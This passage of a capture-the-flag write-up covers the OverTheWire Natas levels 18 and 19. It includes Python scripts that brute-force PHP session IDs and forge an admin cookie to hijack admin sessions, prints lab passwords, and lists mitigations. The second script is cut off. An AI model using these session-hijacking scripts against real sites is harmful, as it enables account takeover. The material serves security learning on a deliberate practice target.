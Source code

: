 #### How you passed the challenge
Since there were only 640 possible session IDs and I didn't know which ones were admins, I wrote a script to loop through the IDs with the ```admin``` cookie set to ```1```
```natas18.py```
```py
import requests

auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

for i in range(1, 640):
    s = requests.Session()
    s.auth = auth
    req = s.get("http://natas18.natas.labs.overthewire.org/index.php",
                cookies={"admin": "1", "PHPSESSID": f"{i}"})
    print(i)
    if "You are an admin." in req.text:
        results = req.text.split()
        print(results[results.index("Password:") + 1])
        break
```

#### What sins are evidenced in this challenge
Sin #4, Sin #12

#### How could those sins be mitigated
Use 128-bit+ Session IDs 
Use encrypted session IDs with a proper expiration date
Use internal tracking to tell which users are admins

---
### Natas 19

#### Credentials
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### How you passed the challenge
1) I had no idea what the session ID was so I printed out a bunch of them with Python before noticing that the start and last 2 digits always remained the same
2) When I added a username, I noticed that some stuff got appened onto the end of the string that also remained constant
3) I used the BURP suite to test decoding with a few different options before finding that the session IDs were just the hex representations of the ASCII values of a session ID appended with "-" and some username
4) After trying a few different usernames, I went with admin using the script below
5) The admin session ID I found was "281-admin"

```natas19.py```
```py
import requests

# data = {"username": "natas19", "password": "2334"}
auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
username = "-admin"
s_string = "".join("{}".format(hex(ord(c)), 'x') for c in username)

# while True:
# req = requests.post(
#     "http://natas19.natas.labs.overthewire.org/index.php", data=data, auth=auth)
# print(req.cookies.get_dict()["PHPSESSID"])

for i in range(1, 641):
    number = "".join("{}".format(hex(ord(c)), 'x') for c in str(i))
    s_id = number + s_string
    s_id = s_id.replace("0x", "")
```